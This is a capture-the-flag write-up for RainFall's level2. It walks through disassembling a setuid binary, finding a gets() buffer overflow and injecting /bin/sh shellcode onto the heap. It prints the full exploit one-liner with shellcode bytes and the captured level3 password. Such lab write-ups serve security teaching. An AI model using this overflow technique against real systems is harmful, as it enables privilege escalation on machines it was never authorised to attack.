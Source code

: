 # level2

## Hint

When we log into the machine as `level2`, we notice a binary that segfaults when we run it without a parameter:

```shell-session
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
level2@RainFall:~$ ./level2
coucou
coucou
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

That being said, it seems we need to look into the binary in order to try to understand what input it's awaiting.

## gdb

### getting to know the binary

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   ebp
   0x08048540 <+1>:	mov    ebp,esp
   0x08048542 <+3>:	and    esp,0xfffffff0
   0x08048545 <+6>:	call   0x80484d4 <p>            <----- Call to function p
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
gdb-peda$ disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>  <----- Call to fflush
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>    <----- Call to gets
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000          <----- Logical binary operation
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>        <----- Conditional jump to p+83
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>  <----- Call to printf
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>   <----- Call to exit
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>    <----- Call to puts
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>  <----- Call to strdup
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

There seems to be a lot going on here.

Indeed there could be several ways for us to make this executable open a shell for us:
1. use a `ret2libc` exploit by injecting a shell code that would call a `/bin/sh` from within the available symbols in the binary.
2. use a `ROP` (return oriented programming) exploit, in order to carefully sequence a series of `RET` operation with addresses, that will allow the cherry picking of instructions to execute.
3. Inject a shellcode on the heap, and execute it thanks to a RIP register overwrite

We will try the third one.

### return to libc

We know this is possible because there is a function call (strdup) that will allocate on the HEAP a chunk of data that we may very well have tailored to call the wanted functions from the libc.

To do that we first need to determine the size of the buffer.

Using our favourite [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), we can determine that size.

![](Ressources/pattern_generator_demonstration.png)

We then use the address returned by gdb in order to determine the size of the buffer

![](Ressources/pattern_generator_demonstration_size.png)

The tool tells us that the buffer indeed had a size of 80.

Now that we have the size of the buffer, as for the previous exercise, we must find the address to overwrite the Return Instruction Pointer register with.

This will allow us to send the execution to where we will have allocated our malicious shellcode

Obviously, that address will be the one at the start of the HEAP, since that's where our shellcode will be allocated by the call to `strdup`.

So how do we find the start address of the that chunk of HEAP memory ?
Easily enough: `info proc mappings`, though obviously enough, we need to set a breakpoint AFTER the call to the HEAP-allocating function `strdup`.

```gdb
gdb-peda$ b *p+105
Breakpoint 1 at 0x804853d
[...]
[-------------------------------------code-------------------------------------]
   0x8048532 <p+94>:	lea    eax,[ebp-0x4c]
   0x8048535 <p+97>:	mov    DWORD PTR [esp],eax
   0x8048538 <p+100>:	call   0x80483e0 <strdup@plt>
=> 0x804853d <p+105>:	leave
   0x804853e <p+106>:	ret
   0x804853f <main>:	push   ebp
   0x8048540 <main+1>:	mov    ebp,esp
   0x8048542 <main+3>:	and    esp,0xfffffff0
[...]
gdb-peda$ info proc mappings
process 7541
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
	 0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
	 0x804a000  0x806b000    0x21000        0x0 [heap]     <---- START ADDRESS OF HEAP
	0xb7e2b000 0xb7e2c000     0x1000        0x0
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0
	0xb7fd9000 0xb7fdd000     0x4000        0x0
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
gdb-peda$
```

Okay now, last part before we can say we have officially hacked that binary: the shellcode.

Our shellcode must be one to call a `/bin/sh` binary to open a shell for us.
There are plenty available on [shellstorm](http://shell-storm.org/), so it doesn't really matter which one we take as long as it's at least smaller that 80 bytes. (because we need room for the HEAP address we have found before) 

Our shellcode is found [here](http://shell-storm.org/shellcode/files/shellcode-811.php) and it is 28 bytes long. That means that for the overflow to happen we must concatenate a 52 byte padding to the shell code, and then the address we mentionned before.

```shell-session
level2@RainFall:~$
(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'thisisjustbutapaddingtoguaranteethatwehaveanoverflow' + '\x08\xa0\x04\x08'"; cat -)>
1Ph//shh/bin�°
              ̀1@̀thisisjustbutapaddingtoguaranteethveanoverflow
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```


